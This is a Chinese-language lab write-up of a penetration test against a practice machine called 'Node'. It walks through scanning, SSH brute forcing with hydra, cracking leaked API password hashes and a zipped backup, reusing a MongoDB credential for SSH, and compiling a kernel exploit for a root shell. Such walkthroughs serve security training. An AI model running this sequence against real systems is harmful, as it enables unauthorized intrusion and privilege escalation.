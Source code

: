 

# Node渗透实战

## **扫描主机（netdiscover）**

```
sudo netdiscover -i eth0 -r 192.168.100.0/24
```

## 目标主机IP：192.168.100.152

### 端口扫描

```
nmap -A 192.168.100.152
```

![image-20210920093248827](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/202109200932182.png)

### 指纹识别

````
whatweb 192.168.100.152:3000
````

![image-20210920093415369](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/202109200934483.png)

### 目录扫描

```
dirsearch  -u http://192.168.100.152:3000
```

![image-20210920093825455](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/202109200938578.png)

### ssh弱密码扫描

```
hydra -L top500.txt -P top6000.txt  192.168.100.152  ssh  
```

![image-20210920094410988](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/202109200944101.png)

### msf扫描ssh

```
msfconsole
use auxiliary/scanner/ssh/ssh_version
options
set rhosts 192.168.100.152
run
```

![image-20210920094847747](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/202109200948869.png)

### burpsuite站点地图

<img src="https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/202109200953740.png" alt="image-20210920095355610"  />	

## 由站点地图访问得到数据

```
192.168.100.152:3000/api/users/latest
```

```
[{"_id":"59a7368398aa325cc03ee51d","username":"tom","password":"f0e2e750791171b0391b682ec35835bd6a5c3f7c8d1d0191451ec77b4d75f240","is_admin":false},
{"_id":"59a7368e98aa325cc03ee51e","username":"mark","password":"de5a1adf4fedcce1533915edc60177547f1057b61b7119fd130e1f7428705f73","is_admin":false},
{"_id":"59aa9781cced6f1d1490fce9","username":"rastating","password":"5065db2df0d4ee53562c650c29bacf55b97e231e3fe88570abc9edd8b78ac2f0","is_admin":false}]
```

### MD5解密 sha256

```
f0e2e750791171b0391b682ec35835bd6a5c3f7c8d1d0191451ec77b4d75f240 -> spongebob
de5a1adf4fedcce1533915edc60177547f1057b61b7119fd130e1f7428705f73 -> snowflake
```

- 成功破解出两个账户的密码，分别为：
-   tom   spongebob
-   mark snowflake

## 登录

![image-20210920100907310](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/202109201009461.png)

## 再次访问得到数据

```
192.168.100.152:3000/api/users/
```

````
[{"_id":"59a7365b98aa325cc03ee51c","username":"myP14ceAdm1nAcc0uNT","password":"dffc504aa55359b9265cbebe1e4032fe600b64475ae3fd29c07d23223334d0af","is_admin":true},
````

### MD5解密 sha256

- 成功破解出admin账户的密码，分别为：

- myP14ceAdm1nAcc0uNT    manchester

![image-20210920101335181](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/202109201013344.png)

## 打开下载的内容，看到一堆密文

通过最后的“=”可以猜测是经过**base64**加密的；

### 尝试以压缩包形式打开

```
base64 -d myplace.backup > myplace
```

```
unzip myplace 
```

![image-20210920102116910](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/202109201021039.png)

### 使用工具fcrackzip进行密码的破解

```
fcrackzip -v -b -u -c a -p magicaaaa myplace
```

> -v 就是可以看到更多的信息 
> -b 暴力破解 
> -u 用zip去尝试 
> -c 指定字符 a 就是说明密码是由小写字母组成的 
> -p 弄一个初始化的密码 aaaaaa 如果是纯数字000000  当然这里的长度都是6 
> 	PASSWORD FOUND!!!!: pw == magicword

![image-20210920102300235](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/202109201023340.png)

## 解压得

![image-20210920103212159](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/202109201032275.png)



> 对于node.js而言我们首先要基本熟悉他的构架，其中app.js：

> 项目入口及程序启动文件。先查看app.js文件；

```
cat app.js

cat app.js | grep url
const url = 'mongodb://mark:5AYRft73VtFpc84k@localhost:27017/myplace?authMechanism=DEFAULT&authSource=myplace';
```

![image-20210920103536188](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/202109201035335.png)

## **尝试ssh远程连接**

- 我们发现了一个Node.js 连接 MongoDB 的操作；
- 用户名为mark    密码为5AYRft73VtFpc84k；
- 得到的用户名和密码很可能适用于ssh，可以进行尝试；

```
ssh mark@192.168.100.152
```

![image-20210920103847097](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/202109201038274.png)

```
mark@node:~$ cat /etc/issue
Ubuntu 16.04.3 LTS \n \l
```

## 通过searchsploit命令查找漏洞

```
searchsploit Ubuntu 16.04
```

> Linux Kernel < 4.4.0-116 (Ubuntu 16.04.4) - Local Privilege Es | linux/local/44298.c

> 由于 /tmp文件的限制小，所以将文件上传到靶机的tmp文件下。

```
scp /usr/share/exploitdb/exploits/linux/local/44298.c mark@192.168.100.152:/tmp/
```

## 利用该漏洞进行本地提权

 ```
 mark@node:/tmp$ gcc -pthread 44298.c -o exp -lcrypt
 mark@node:/tmp$  ./exp 
 task_struct = ffff88002b59c600
 uidptr = ffff88002e1da484
 spawning root shell
 root@node:/tmp# 
 ```

![image-20210920104538508](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/202109201045652.png)





- 前端页面中的js页面很重要，尤其是类似目录的信息；

- 密文最后如果是“=”或者“==”，可能该密文是经过base64加密的；

- 如果经过base64解密后不能查看信息，可以尝试将解密后的信息输出到文件

- 并以解压zip压缩包的形式打开；

- 了解搭建网站的框架，目录结构；

- 对于node.js而言我们首先要基本熟悉他的构架，其中 app.js：

- 项目入口及程序启动文件。一般先查看app.js文件；



  

